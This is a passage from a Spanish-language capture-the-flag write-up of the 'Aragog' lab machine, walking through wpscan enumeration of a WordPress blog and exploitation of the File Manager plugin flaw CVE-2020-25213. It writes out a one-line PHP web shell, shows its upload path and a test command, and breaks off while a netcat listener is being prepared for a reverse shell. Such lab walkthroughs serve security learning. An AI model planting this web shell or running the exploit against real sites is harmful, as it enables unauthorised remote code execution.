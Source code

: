 Recargamos la página web y observamos que los recursos se cargan correctamente esta vez.

![Aragog](aragog/aragog10.png){: width="600" height="300" }
_Blog Wordpress_

Realizamos una enumeración de Wordpress en busca de plugins o temas vulnerables, en este caso, usando la herramienta `wpscan`.

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog --api-token $WP_TOKEN --plugins-detection aggressive
```

![Aragog](aragog/aragog11.png)
_Enumeración de Wordpress_

> Podemos utilizar otras herramientas como `nmap` utilizando el script `http-wordpress-enum`, `nuclei` o la realización de fuzzing con `ffuf`, `gobuster`, entre otras, podrían ser utilizadas.
{: .prompt-tip }

Vemos que nos reporta varias vulnerabilidades, entre ellas, el plugin `File Manager 6.0-6.9` el cual es vulnerable a `Unauthenticated Arbitrary File Upload leading to RCE`. Dicha vulnerabilidad esta identificada como `CVE-2020-25213`. 

Si ingreamos al primer enlace que nos idnica la herramienta `wpscan`, podemos ver que nos comparten un PoC. Descargamos el script de Python.

![Aragog](aragog/aragog12.png)
_Exploit_

Antes de ejecutar el exploit, debemos crear un archivo php con nombre `payload.php` el cual contendra nuestro código php que será subido al servidor.

![Aragog](aragog/aragog13a.png)
_Exploit_

```bash
<?php system($_GET['cmd']); ?>
```

![Aragog](aragog/aragog13.png)
_Ejecución del exploit_

> La ruta correcta es: http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php y no la que indica el exploit.
{: .prompt-danger }

Accedemos a la ruta e indicamos como paráemtro `cmd=id`.

![Aragog](aragog/aragog14.png)
_Explotación del RCE_

Vemos que tenemos capacidad de ejecución remota de comandos.

Ejecutamos una reverse shell. Para lo cual, nos ponemos en escucha por el puerto `4444` con `nc`.
